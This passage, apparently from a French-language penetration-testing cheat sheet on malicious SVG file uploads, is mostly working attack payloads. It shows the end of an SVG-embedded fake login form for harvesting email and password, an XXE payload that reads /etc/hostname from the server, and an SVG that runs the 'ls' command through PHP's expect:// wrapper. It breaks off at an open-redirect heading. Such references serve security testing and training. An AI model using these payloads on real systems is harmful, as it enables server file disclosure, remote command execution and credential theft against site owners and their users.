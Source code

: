```svg
                <input type="text" name="email" placeholder="Email"/>
                <input type="password" name="password" placeholder="Mot de passe"/>
                <input type="submit" value="Submit"/>
            </form>
        </body>
    </foreignObject>
</svg>
```

## XML External Entity (XXE)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le fichier doit être traité par le serveur

- L'utilisation de wrapper PHP est possible que si le serveur tourne sous PHP

### Attaque

Comme les fichiers SVG sont basés sur du XML, une XXE est possible.

Pour récupérer un fichier (ici `/etc/hostname`) :

**xxe\_file.svg** (https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

```svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Pour exécuter une commande (ici `ls`) à l'aide de wrapper de PHP `expect`:

**xxe\_command.svg** 

```svg
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

## OpenRedirection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque
